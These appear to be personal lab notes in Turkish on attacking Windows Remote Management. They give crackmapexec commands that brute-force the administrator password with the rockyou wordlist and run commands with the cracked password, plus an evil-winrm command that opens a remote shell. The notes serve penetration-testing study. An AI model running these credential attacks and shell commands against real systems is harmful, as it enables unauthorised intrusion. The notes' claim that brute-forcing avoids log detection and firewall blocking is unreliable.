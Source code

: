 ```
crackmapexec winrm 10.0.2.17 -u administrator -p /opt/rockyou.txt
```

### Burada özellikle administrator yazdık çünkü zaten bu sistem yöneticilerinin kontrolünde olacak şekilde ayarlanmış bir tool. İstersek oraya bir username list de koyabiliriz.

![[Pasted image 20240202140223.png]]
![[Pasted image 20240202140344.png]]

## crackmapexec winrm 10.0.2.17 -u administrator -p tinkerbell -x "whoami"
```
crackmapexec winrm 10.0.2.17 -u administrator -p tinkerbell -x "whoami"
```

![[Pasted image 20240202140449.png]]

```
crackmapexec winrm 10.0.2.17 -u administrator -p tinkerbell -x "sysinfo"
```

![[Pasted image 20240202140539.png]]
### Biz asıl şifreyi bruteforce ile bulduğumuz için burada log'larla tespit edilme diye birşey veya firewall'un bizi engellemesi olmaz.

## Shell nasıl alacağız.
#evil-winrm-shell 
#evil-winrm 

![[Pasted image 20240202140854.png]]

![[Pasted image 20240202140938.png]]

```
evil-winrm -u administrator -p 'tinkerbell' -i 10.0.2.17
```

![[Pasted image 20240202141051.png]]

![[Pasted image 20240202141147.png]]





---
## msfconsole
![[Pasted image 20240202135129.png]]
